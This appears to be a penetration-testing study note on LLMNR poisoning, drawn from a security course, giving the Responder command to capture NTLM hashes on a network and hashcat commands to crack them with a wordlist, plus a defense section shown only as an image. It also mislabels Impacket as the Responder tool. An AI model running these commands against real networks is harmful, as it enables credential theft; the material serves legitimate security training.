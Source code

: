 # LLMNR Poisoning

## What is LLMNR

![image](https://user-images.githubusercontent.com/96747355/167956823-a8f3ac8f-e971-463e-8c67-ba26f5f6e774.png)  

> *Source: TCM Security Academy*  

![image](https://user-images.githubusercontent.com/96747355/167956838-6185b47d-dfc8-4cb1-9a4e-39814a7a795b.png)  

> *Source: TCM Security Academy*

## Responder

- [Impacket](https://github.com/SecureAuthCorp/impacket): tool to abuse LLMNR:  
Best to run first thing in the morning  
```responder -I eth0 -rdwv```
And when there will be activity in the network we will be able to get hashes

## Hascat

- We use hashcat to crack the hashes we got previously
- When looking for a module in hascat we can grep on the hash we need:
```hashcat --help | grep NTLM```
- Command
```hashcat -m 5600 ntlmhash.txt /usr/share/wordlists/rockyou.txt```

## LLMNR Poisoning Defense

![image](https://user-images.githubusercontent.com/96747355/167956945-7978a93c-5fdf-425a-90e6-87baed015c74.png)  

> *Source: TCM Security Academy*
